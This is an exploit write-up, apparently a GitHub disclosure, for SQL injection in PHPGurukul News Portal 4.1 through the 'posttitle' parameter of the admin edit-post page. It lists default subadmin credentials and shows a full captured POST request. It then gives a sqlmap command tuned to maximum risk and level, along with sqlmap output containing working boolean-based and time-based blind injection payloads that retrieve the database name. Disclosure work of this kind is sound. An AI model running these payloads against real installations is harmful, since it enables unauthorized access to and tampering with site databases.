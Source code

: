 # News Portal - SQL Injection - 3
+ **Exploit Title:** News Portal - SQL Injection - 3
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/news-portal-project-in-php-and-mysql/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7643
+ **Version:** 4.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
News Portal System  4.1 allows SQL Injection via the 'posttitle' parameter in "http://localhost/newsportal/admin/edit-post.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost//newsportal/admin/index.php"
+ Log in with `subadmin` :`Test@123`
+ Click manage posts then click edit posts
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /newsportal/admin/edit-post.php?pid=13 HTTP/1.1
Host: localhost
Content-Length: 1538
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/newsportal/admin/edit-post.php?pid=13
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=dfcdlcor0hrif7af2b2tjeejt6
Connection: close

posttitle=T20+World+Cup+2021%3A+Semi-final+1%2C+England+vs+New+Zealand+%C3%A2%E2%82%AC%E2%80%9C+Who+Said+What&category=3&subcategory=4&postdescription=%3Cp+style%3D%22margin-bottom%3A+3rem%3B+font-size%3A+20px%3B+color%3A+rgb%2841%2C+41%2C+41%29%3B+line-height%3A+1.6%3B+font-family%3A+%26quot%3BProxima+Nova%26quot%3B%3B%22%3ENew+Zealand+held+their+nerves+admirably+to+make+it+a+hat-trick+of+ICC+event+final+entrances%2C+trumping%26nbsp%3B%3Ca+href%3D%22https%3A%2F%2Fwww.crictracker.com%2Fcricket-teams%2Fengland%2F%22+target%3D%22_blank%22+rel%3D%22noopener%22+style%3D%22color%3A+rgb%284%2C+93%2C+233%29%3B%22%3E%3Cstrong%3EEngland%3C%2Fstrong%3E%3C%2Fa%3E%26nbsp%3Bin+a+see-sawing+semi-final+clash+in+Abu+Dhabi.+You+would+feel+they+are+too+nice+to+believe+in+revenging+anything%2C+even+if+it+is+as+bitter+as+the+fateful+2019+ODI+World+Cup+loss%2C+so+let%C3%A2%E2%82%AC%E2%84%A2s+put+it+this+way%3A+the+scores+are+settled.+And+in+doing+so%2C+New+Zealand+have+made+it+to+the+finals+of+a+tournament+no+one+counted+them+as+the+favourites+of.%26nbsp%3B%3C%2Fp%3E%3Cp+style%3D%22margin-bottom%3A+3rem%3B+font-size%3A+20px%3B+color%3A+rgb%2841%2C+41%2C+41%29%3B+line-height%3A+1.6%3B+font-family%3A+%26quot%3BProxima+Nova%26quot%3B%3B%22%3EAfter+being+inserted%2C+a+Jason+Roy-less+England+managed+166%2F4+largely+on+the+back+of+Dawid+Malan+%2841+off+30%29%2C+who+got+back+his+mojo+at+the+right+time%2C+and+Moeen+Ali+%2851+off+37%29%2C+who+proved+it+for+the+umpteenth+time+what+a+marvellous+short-format+asset+he+is.%3C%2Fp%3E&files=&update=
```

+ Use sqlmap to exploit. In sqlmap, use 'posttitle' parameter to dump the database.
```
sqlmap -r r.txt -p posttitle --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: posttitle (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: posttitle=T20 World Cup 2021: Semi-final 1, England vs New Zealand %C3%A2%E2%82%AC%E2%80%9C Who Said What' WHERE 2968=2968 AND 4622=(SELECT (CASE WHEN (4622=4622) THEN 4622 ELSE (SELECT 9576 UNION SELECT 1829) END))-- -&category=3&subcategory=4&postdescription=<p style="margin-bottom: 3rem; font-size: 20px; color: rgb(41, 41, 41); line-height: 1.6; font-family: %26quot;Proxima Nova%26quot;;">New Zealand held their nerves admirably to make it a hat-trick of ICC event final entrances, trumping%26nbsp;<a href="https://www.crictracker.com/cricket-teams/england/" target="_blank" rel="noopener" style="color: rgb(4, 93, 233);"><strong>England</strong></a>%26nbsp;in a see-sawing semi-final clash in Abu Dhabi. You would feel they are too nice to believe in revenging anything, even if it is as bitter as the fateful 2019 ODI World Cup loss, so let%C3%A2%E2%82%AC%E2%84%A2s put it this way: the scores are settled. And in doing so, New Zealand have made it to the finals of a tournament no one counted them as the favourites of.%26nbsp;</p><p style="margin-bottom: 3rem; font-size: 20px; color: rgb(41, 41, 41); line-height: 1.6; font-family: %26quot;Proxima Nova%26quot;;">After being inserted, a Jason Roy-less England managed 166/4 largely on the back of Dawid Malan (41 off 30), who got back his mojo at the right time, and Moeen Ali (51 off 37), who proved it for the umpteenth time what a marvellous short-format asset he is.</p>&files=&update=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: posttitle=T20 World Cup 2021: Semi-final 1, England vs New Zealand %C3%A2%E2%82%AC%E2%80%9C Who Said What' WHERE 9212=9212 AND (SELECT 4954 FROM (SELECT(SLEEP(5)))IWkb)-- nhrv&category=3&subcategory=4&postdescription=<p style="margin-bottom: 3rem; font-size: 20px; color: rgb(41, 41, 41); line-height: 1.6; font-family: %26quot;Proxima Nova%26quot;;">New Zealand held their nerves admirably to make it a hat-trick of ICC event final entrances, trumping%26nbsp;<a href="https://www.crictracker.com/cricket-teams/england/" target="_blank" rel="noopener" style="color: rgb(4, 93, 233);"><strong>England</strong></a>%26nbsp;in a see-sawing semi-final clash in Abu Dhabi. You would feel they are too nice to believe in revenging anything, even if it is as bitter as the fateful 2019 ODI World Cup loss, so let%C3%A2%E2%82%AC%E2%84%A2s put it this way: the scores are settled. And in doing so, New Zealand have made it to the finals of a tournament no one counted them as the favourites of.%26nbsp;</p><p style="margin-bottom: 3rem; font-size: 20px; color: rgb(41, 41, 41); line-height: 1.6; font-family: %26quot;Proxima Nova%26quot;;">After being inserted, a Jason Roy-less England managed 166/4 largely on the back of Dawid Malan (41 off 30), who got back his mojo at the right time, and Moeen Ali (51 off 37), who proved it for the umpteenth time what a marvellous short-format asset he is.</p>&files=&update=
---
[19:18:59] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:18:59] [INFO] fetching current database
[19:18:59] [INFO] retrieving the length of query output
[19:18:59] [INFO] retrieved: 10
[19:19:01] [INFO] retrieved: newsportal             
current database: 'newsportal'wsportal             
current database: 'newsportal'
```
+ current database: `newsportal`

![Ekran görüntüsü 2024-04-01 022235](https://github.com/BurakSevben/CVEs/assets/117217689/e1cea114-1909-4146-b7d4-3fb28751e779)
